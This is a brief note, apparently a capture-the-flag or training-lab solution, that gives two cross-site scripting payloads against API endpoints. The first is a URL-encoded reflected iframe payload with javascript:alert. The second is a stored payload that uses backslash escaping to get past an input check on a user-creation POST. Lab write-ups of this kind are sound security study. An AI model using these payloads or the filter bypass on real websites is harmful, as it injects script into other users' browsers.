 ### xss reflected
1. GET rest/api/call/ use URL encode for payload
%3Ciframe%20src%3D%22javascript%3Aalert(%60xss%60)%22%3E

### xxx persist
2. POST /api/Users/ use \ to cover params payload pass check.
<iframe src=\"javascript:alert(`xss2`)\">
